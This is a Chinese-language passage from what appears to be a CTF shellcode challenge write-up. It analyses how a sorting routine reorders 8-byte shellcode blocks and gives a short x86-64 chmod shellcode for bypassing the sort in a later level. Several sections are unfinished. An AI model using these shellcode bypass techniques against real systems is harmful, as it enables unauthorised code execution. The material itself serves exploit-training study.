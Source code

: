```c
```
## ⭐执行排序情况下的情况分析
> 修改了一下源码中 j 的上界，将绕过排序的最短 shellcode 长度设置为了 15 字节。【不过 改不改 不影响，主要是探究排序逻辑】

```c
    uint64_t *input = shellcode_mem;
    int sort_max = shellcode_size / sizeof(uint64_t) - 1;   
    for (int i = 0; i < sort_max; i++)
        for (int j = 0; j < sort_max-i; j++)
            if (input[j] > input[j+1])
            {
                uint64_t x = input[j];
                uint64_t y = input[j+1];
                input[j] = y;
                input[j+1] = x;
            }
```
![联想截图_20240808204601.png]([https://github.com/12yhy3/skills-github-pages/blob/change_blog/1.png])
```
上图中shellcode长度是26bytes，分为4块。每块首字节分别为 0x48，0x00，0x5e,0x0f
由于 26 / 8 - 1 = 2，故i循环执行2次，j循环：1.j = 0,j = 1      2. j=0 
块0，1比较：    不交换      ；块1，2比较：交换，1'=2 , 2'=1
块0，1'比较：交换，0'=1'=2 , 1''= 0     
因此最终块排序为：2，0，1，3对应图的中间部分。

具体bypass需要根据指令进行调整，达到shellcode正常执行的目的。
```
## 借用标准输入【待补充......】
# level 11 在 level10 基础上关闭 stdin
## 短 shellcode 绕过排序
```c
sh = asm('''
push 0x41
mov rdi,rsp
push 4
pop rsi
mov al,0x5a      
syscall
''')
```
## 其他方法【待补充.....】
# level 12 shellcode 中各个字节均不同
> Tips：尽管使用相同的指令，但是最后的生成字节也可能不一样。如：
> mov rax,rbx=====>48 89 D8
> mov al,0x3  =====>B0 03
